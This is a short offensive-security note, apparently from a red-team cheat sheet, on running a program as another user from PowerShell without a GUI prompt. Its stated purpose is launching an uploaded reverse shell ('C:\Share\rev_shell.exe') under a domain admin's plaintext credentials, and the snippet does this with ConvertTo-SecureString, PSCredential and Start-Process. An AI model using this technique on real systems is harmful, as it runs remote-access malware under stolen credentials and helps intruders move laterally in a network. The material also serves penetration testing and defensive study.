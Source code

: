 ## Powershell - Start process as another user without GUI interactions

I have not been able to use "runas" command, as it requires some extra input (GUI-connected?)
As certain users cannot use psexec (requires local admin access), it's simpler to upload a
reverse shell and use "start-process" with the other user's credentials.

```powershell
$program = "C:\Share\rev_shell.exe"
$usr_plain = "domain1\adm_user"
$pwd_plain = "P@ssword"
$pwd_obj = ConvertTo-SecureString $pwd_plain -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential($usr_plain, $pwd_obj)
Start-Process $program -Credential $creds
```
